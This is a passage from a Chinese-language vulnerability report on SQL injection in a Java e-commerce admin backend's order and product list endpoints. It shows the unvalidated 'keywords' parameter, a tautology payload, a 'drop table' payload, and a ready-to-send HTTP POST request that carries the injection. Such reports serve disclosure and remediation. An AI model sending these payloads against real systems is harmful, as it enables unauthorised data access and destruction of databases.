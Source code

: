 ```java
            @Validated PageParamRequest pageParamRequest) {
        // 直接调用Service，无参数过滤
        return CommonResult.success(storeOrderService.getWrite0ffList(request, pageParamRequest));
    }
}

// 参数实体类：SystemWrite0ffOrderSearchRequest
@Data
@EqualsAndHashCode(callSuper = false)
@Accessors(chain = true)
public class SystemWrite0ffOrderSearchRequest implements Serializable {
    private static final Long serialVersionUID = 1L;
    private Integer storeId;       // 门店ID（Integer，安全）
    private String dateLimit;      // 时间范围（格式化处理，安全）
    private String keywords;       // 关键字（String，用户可控，无校验）
}
```


### 3. 注入原理与触发示例
#### （1）注入原理
当用户在`keywords`中输入恶意SQL片段（如`' or '1'='1 -- `），拼接后的`where`条件会变为：
```sql
is_del=0 and shipping_type=2 
and (real_name like '%' or '1'='1 -- %' 
or user_phone='' or '1'='1 -- ' 
or order_id='' or '1'='1 -- ' 
or id='' or '1'='1 -- ')
```
- `'1'='1`使条件恒为真，`-- `注释掉后续SQL，导致查询出**所有核销订单**（越权获取数据）；
- 若输入`' ; drop table eb_store_order; -- `，可能触发删除表（需数据库权限支持）。


#### （2）触发示例（POST请求）
```http
POST /api/admin/system/store/order/list HTTP/1.1
Host: 目标域名
Cookie: 登录后的SESSIONID（需后台权限）
Content-Type: application/json

{
    "dateLimit": "",
    "keywords": "' or '1'='1 -- ",  // 恶意注入 payload
    "storeId": null
}
```


## 二、SQL注入点2：商品列表查询接口（后台）
### 1. 漏洞基础信息
- **影响接口**：后台商品分页列表查询接口  
  - 请求路径：`api/admin/store/product/list`  
  - 请求方法：GET  
  - 权限控制：需拥有`admin:product:list`权限（登录后台后触发）  
- **核心风险文件**：  
  - Service层：`StoreProductServiceImpl.java`（QueryWrapper拼接风险）  
  - Controller层：`StoreProductController.java`  
  - 参数实体类：`StoreProductSearchRequest.java`  
